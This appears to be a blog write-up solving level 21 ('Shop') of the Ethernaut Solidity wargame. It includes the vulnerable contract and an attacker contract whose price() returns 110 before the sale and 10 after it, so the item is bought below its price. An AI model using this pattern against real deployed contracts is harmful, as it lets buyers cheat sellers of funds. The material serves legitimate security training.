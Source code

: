 ```yaml
---
layout: post
title: Ethernaut - 21. Shop
date:  2022-08-29
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌕🌑🌑🌑
> Сan you get the item from the shop for less than the price asked? <br /> <br />
  Things that might help:
  - Shop expects to be used from a Buyer
  - Understanding restrictions of view functions

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

## Writeup
This level is similar to 11-elevator. `buy` method calls `_buyer.price()` twice.<br />
If `_buyer.price()` return value>=100 the first time it is called and return value<100 the second time, we can get the item from the shop for less than the price asked.

1. Get new instance.
2. Create a contract 
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import './21_Shop.sol';

    contract ShopAttacker {
        Shop shop;

        constructor(address _addr) public {
            shop = Shop(_addr);
        }

        function price() external view returns (uint) {
            return ( shop.isSold()==true ) ? 10 : 110;
        }

        function buybuy() public {
            shop.buy();
        }
    }
    ```
3. Check if success by calling method in the console.
    ``` javascript

    await contract.isSold()
    // true
    await contract.price().then( v=> v.toString())
    // 10

    ```
4. Submit instance ξ( ✿＞◡❛)

